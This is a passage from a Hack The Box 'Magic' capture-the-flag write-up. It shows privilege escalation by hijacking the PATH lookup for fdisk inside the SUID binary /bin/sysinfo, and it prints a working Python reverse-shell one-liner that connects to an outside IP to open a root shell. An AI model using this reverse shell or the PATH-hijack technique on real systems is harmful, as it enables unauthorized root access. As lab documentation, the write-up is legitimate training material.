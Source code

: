 Unfortunately, `theseus` has no `sudo` permissions.

```bash
theseus@ubuntu:/dev/shm$ sudo -l
[sudo] password for theseus: 
Sorry, user theseus may not run sudo on ubuntu.
```

I inspect running processes and services on the machine but do not find anything in particular.
I could have collected information faster with [Linux Smart Enumeration (LSE)][lse] or [LinEnum][], but I ended up searching the file system myself.
I eventually notice the `/bin/sysinfo` command has the SUID bit set.

```bash
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```

This means that `sysinfo` will run as root and the `users` group has permission to execute this binary.
And, `theseus` is in `users`.

```bash
theseus@ubuntu:/dev/shm$ groups
theseus users
```

`sysinfo` is a standard Linux command that returns various information about the current system.
It accomplishes this by calling a number of subsequent commands and collating the information.
One of the commands `sysinfo` calls is `fdisk` for disk partition information.
I am going to try to hijack `sysinfo` by creating my own version of `fdisk` and inserting it into the global `PATH` before the legitimate command.
Hopefully, `sysinfo` will execute my code as if it were `fdisk` with the SUID bit and give me a root shell.

In `/dev/shm`, I create an `fdisk` file and grant it `755` permissions.
I then echo this python reverse shell into the file:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.41",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I then add `/dev/shm` to the front of the `PATH` and confirm `fdisk` now points to my executable.

![path hijack][]

From here, I call `sysinfo` as `theseus`. My `fdisk` is executed from my `PATH` context with root permissions and I get a root shell.

![root shell]

I can now collect the root flag.

[burp]: https://portswigger.net/burp
[exiftool]: https://github.com/exiftool/exiftool
[gobuster]: https://github.com/OJ/gobuster
[hackthebox]: https://www.hackthebox.eu
[linenum]: https://github.com/rebootuser/LinEnum
[lse]: https://github.com/diego-treitos/linux-smart-enumeration

[burp homepage source]: /assets/img/htb/magic/burp-homepage-image-paths.png
[burp login request]: /assets/img/htb/magic/sqli-login-request.png
[burp login response]: /assets/img/htb/magic/sqli-login-response.png
[image upload]: /assets/img/htb/magic/login-image-upload.png
[php image upload]: /assets/img/htb/magic/image-successful-upload.png
[php image code exec]: /assets/img/htb/magic/php-cmd-shell-image.png
[meterpreter payload burp]: /assets/img/htb/magic/php-meterpreter-payload-burp.png
[meterpreter user shell]: /assets/img/htb/magic/php-meterpreter-shell.png
[path hijack]: /assets/img/htb/magic/path-hijack.png
[root shell]: /assets/img/htb/magic/root-shell.png
